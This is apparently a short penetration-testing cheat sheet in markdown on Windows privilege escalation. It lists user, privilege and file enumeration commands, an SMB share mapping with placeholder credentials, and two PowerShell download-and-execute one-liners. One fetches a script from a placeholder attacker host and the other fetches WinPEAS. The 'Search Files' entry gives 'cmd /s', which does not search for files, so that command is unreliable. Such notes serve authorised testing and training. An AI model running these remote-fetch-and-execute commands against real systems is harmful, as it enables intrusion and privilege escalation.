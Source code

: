```yaml
---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Windows Privilege Escalation

## System Enumeration

### List Users

```batch
net user
```

### User Privileges

```batch
whoami /priv
```

### Search Files

{% hint style="info" %}
If you dont know the full path of the file or even the extension, you can use: `*<FILE>*`
{% endhint %}

```batch
cmd /s <FILE>
```

### List Recursive Directories

```batch
tree /F
```

### Add SMB share to network drives

```batch
net use z: \\<ip>\<share> /user:<user> <pass>
```

### Execute Remote PowerShell Script

```powershell
IEX(New-Object Net.WebClient).downloadString('http://<ip>/script.ps1')
```

### [WinPEAS](https://github.com/peass-ng/PEASS-ng)

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```
